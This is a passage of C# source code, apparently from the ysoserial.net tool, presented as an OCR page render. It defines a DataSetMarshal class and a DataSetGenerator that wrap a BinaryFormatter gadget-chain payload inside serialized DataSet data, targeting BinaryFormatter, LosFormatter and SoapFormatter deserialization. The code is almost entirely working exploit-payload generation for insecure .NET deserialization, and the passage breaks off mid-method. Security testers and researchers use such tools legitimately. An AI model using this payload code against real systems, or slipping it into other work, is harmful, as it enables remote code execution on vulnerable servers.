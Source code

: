 ```java
        info.AddValue("DataSet.LocaleLCID", 0x409);
        info.AddValue("DataSet.EnforceConstraints", false);
        info.AddValue("DataSet.ExtendedProperties", (System.Data.PropertyCollection)null);
        info.AddValue("DataSet.Tables.Count", 1);
        info.AddValue("DataSet.Tables_0", _fakeTable);
    }

    public void SetFakeTable(byte[] bfPayload)
    {
        _fakeTable = bfPayload;
    }

    public DataSetMarshal(byte[] bfPayload)
    {
        SetFakeTable(bfPayload);
    }

    public DataSetMarshal(object fakeTable):this(fakeTable, new InputArgs())
    {
        // This won't use anything we might have defined in ysoserial.net BinaryFormatter process (such as minification)
    }

    public DataSetMarshal(object fakeTable, InputArgs inputArgs)
    {
        MemoryStream stm = new MemoryStream();
        if (inputArgs.Minify)
        {
            ysoserial.Helpers.ModifiedVulnerableBinaryFormatters.BinaryFormatter fmtLocal = new ysoserial.Helpers.ModifiedVulnerableBinaryFormatters.BinaryFormatter();
            fmtLocal.Serialize(stm, fakeTable);
        }
        else
        {
            BinaryFormatter fmt = new BinaryFormatter();
            fmt.Serialize(stm, fakeTable);
        }

        SetFakeTable(stm.ToArray());
    }

    public DataSetMarshal(MemoryStream ms)
    {
        SetFakeTable(ms.ToArray());
    }
}

public class DataSetGenerator:GenericGenerator
{
    public override object Generate(string formatter, InputArgs inputArgs)
    {

        byte[] init_payload = (byte[]) new TextFormattingRunPropertiesGenerator().GenerateWithNoTest("BinaryFormatter", inputArgs);

        DataSetMarshal payloadDataSetMarshal = new DataSetMarshal(init_payload);

        if (formatter.Equals("binaryformatter", StringComparison.OrdinalIgnoreCase)
            || formatter.Equals("losformatter", StringComparison.OrdinalIgnoreCase)
            || formatter.Equals("soapformatter", StringComparison.OrdinalIgnoreCase))
        { 
            return Serialize(payloadDataSetMarshal, formatter, inputArgs);
        }
```